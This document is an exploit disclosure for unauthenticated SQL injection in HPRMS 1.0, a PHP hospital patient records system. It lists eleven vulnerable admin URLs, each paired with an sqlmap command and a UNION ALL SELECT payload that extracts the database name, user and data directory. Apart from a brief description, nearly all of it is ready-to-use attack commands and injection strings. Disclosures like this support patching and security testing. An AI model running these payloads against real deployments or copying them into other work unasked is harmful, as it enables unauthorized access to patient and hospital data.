

### Exploit Title: HPRMS - SQL injection

### Vendor Homepage: https://www.sourcecodester.com/

### Software Link: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

### Version: HPRMS 1.0

### Tested on: Win10, Apache

> Description

Some foreground SQL injection issues in HPRMS v.1.0, Available without admin login

> Vulnerability point

1. http://localhost/hprms/admin/doctors/view_doctor.php?id=1
2. http://localhost/hprms/admin/doctors/manage_doctor.php?id=1
3. http://localhost/hprms/admin/patients/manage_patient.php?id=1
4. http://localhost/hprms/admin/patients/view_history.php?id=1
5. http://localhost/hprms/admin/patients/manage_admission.php?id=1
6. http://localhost/hprms/admin/patients/manage_history.php?id=1
7. http://localhost/hprms/admin/patients/view_admission.php?id=1
8. http://localhost/hprms/admin/room_types/view_room_type.php?id=1
9. http://localhost/hprms/admin/room_types/manage_room_type.php?id=1
10. http://localhost/hprms/admin/rooms/view_room.php?id=1
11. http://localhost/hprms/admin/rooms/manage_room.php?id=1

> exploit

1. python sqlmap.py -u http://localhost/hprms/admin/doctors/view_doctor.php?id=1

2. python sqlmap.py -u http://localhost/hprms/admin/doctors/manage_doctor.php?id=1
3. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_patient.php?id=1
4. python sqlmap.py -u http://localhost/hprms/admin/patients/view_history.php?id=1
5. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_admission.php?id=1
6. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_history.php?id=1
7. python sqlmap.py -u http://localhost/hprms/admin/patients/view_admission.php?id=1
8. python sqlmap.py -u http://localhost/hprms/admin/room_types/view_room_type.php?id=1
9. python sqlmap.py -u http://localhost/hprms/admin/room_types/manage_room_type.php?id=1
10. python sqlmap.py -u http://localhost/hprms/admin/rooms/view_room.php?id=1
11. python sqlmap.py -u http://localhost/hprms/admin/rooms/manage_room.php?id=1

> verify

1. http://localhost/hprms/admin/doctors/view_doctor.php?id=-7873' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
2. http://localhost/hprms/admin/doctors/manage_doctor.php?id=-1485' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
3. view-source:http://localhost/hprms/admin/patients/manage_patient.php?id=-93' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL-- -
4. http://localhost/hprms/admin/patients/view_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user()))-- -
5. view-source:http://localhost/hprms/admin/patients/manage_admission.php?id=1' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
6. http://localhost/hprms/admin/patients/manage_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
7. view-source:http://localhost/hprms/admin/patients/view_admission.php?id=1' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
8. http://localhost/hprms/admin/room_types/view_room_type.php?id=-3985' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
9. http://localhost/hprms/admin/room_types/manage_room_type.php?id=-53' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
10. http://localhost/hprms/admin/rooms/view_room.php?id=-87' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
11. http://localhost/hprms/admin/rooms/manage_room.php?id=-27' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL-- -

> Vulnerability Details

Vulnerability Details 1

exploit：python sqlmap.py -u http://localhost/hprms/admin/doctors/view_doctor.php?id=1

verify：http://localhost/hprms/admin/doctors/view_doctor.php?id=-7873' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -

Vulnerability Details 2

exploit：python sqlmap.py -u http://localhost/hprms/admin/doctors/manage_doctor.php?id=1

verify：http://localhost/hprms/admin/doctors/manage_doctor.php?id=-1485' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -

Vulnerability Details 3

exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_patient.php?id=1

verify：view-source:http://localhost/hprms/admin/patients/manage_patient.php?id=-93' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL-- -

Vulnerability Details 4

exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/view_history.php?id=1

verify：http://localhost/hprms/admin/patients/view_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user()))-- -

Vulnerability Details 5

exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_admission.php?id=1

verify：view-source:http://localhost/hprms/admin/patients/manage_admission.php?id=1' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

Vulnerability Details 6

exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_history.php?id=1

verify：http://localhost/hprms/admin/patients/manage_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -

Vulnerability Details 7

exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/view_admission.php?id=1

verify：view-source:http://localhost/hprms/admin/patients/view_admission.php?id=1' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

Vulnerability Details 8

exploit：python sqlmap.py -u http://localhost/hprms/admin/room_types/view_room_type.php?id=1

verify：http://localhost/hprms/admin/room_types/view_room_type.php?id=-3985' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -

Vulnerability Details 9

exploit：python sqlmap.py -u http://localhost/hprms/admin/room_types/manage_room_type.php?id=1

verify：http://localhost/hprms/admin/room_types/manage_room_type.php?id=-53' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -

Vulnerability Details 10

exploit：python sqlmap.py -u http://localhost/hprms/admin/rooms/view_room.php?id=1

verify：http://localhost/hprms/admin/rooms/view_room.php?id=-87' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -

Vulnerability Details 11

exploit：python sqlmap.py -u http://localhost/hprms/admin/rooms/manage_room.php?id=1

verify：http://localhost/hprms/admin/rooms/manage_room.php?id=-27' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL-- -

